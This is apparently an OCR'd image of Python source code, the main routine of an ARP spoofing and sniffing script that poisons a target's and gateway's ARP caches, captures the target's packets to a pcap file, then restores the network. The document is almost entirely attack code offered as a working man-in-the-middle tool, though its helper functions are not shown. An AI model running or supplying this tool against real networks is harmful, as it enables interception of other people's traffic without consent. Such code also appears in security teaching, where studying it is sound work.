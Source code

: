 ```python
# set out our interface
kam.conf.iface = interface

# turn off output
kam.conf.verb = 0

print(f"[*] Setting up {interface}")

tgt_gateway_mac = get_mac(tgt_gateway)

if tgt_gateway_mac is None:
    print("[!!!] Failed to get gateway MAC. Exiting.")
    sys.exit(0)
else:
    print(f"[*] Gateway {tgt_gateway} is at {tgt_gateway_mac}")

tgt_mac = get_mac(tgt_ip)

if tgt_mac is None:
    print("[!!!] Failed to get target MAC. Exiting.")
    sys.exit(0)
else:
    print(f"[*] Target {tgt_ip} is at {tgt_mac}")

# start poison thread
poison_thread = threading.Thread(target=poison_target, 
                                args=(tgt_gateway, tgt_gateway_mac, tgt_ip, tgt_mac))
poison_thread.start()

try:
    print(f"[*] Starting sniffer for {packet_count} packets")
    bpf_filter = f"ip host {tgt_ip}"
    packets = kam.sniff(count=packet_count, filter=bpf_filter, iface=interface)
    print(f"[*] Writing packets to arper.pcap")
    kam.wrpcap("arper.pcap", packets)

except KeyboardInterrupt:
    pass

finally:
    poisoning = False
    time.sleep(2)

    #restore the network
    restore_target(tgt_gateway, tgt_gateway_mac, tgt_ip, tgt_mac)

sys.exit()
```

# **Python ARP Spoofing & Sniffing Script**  
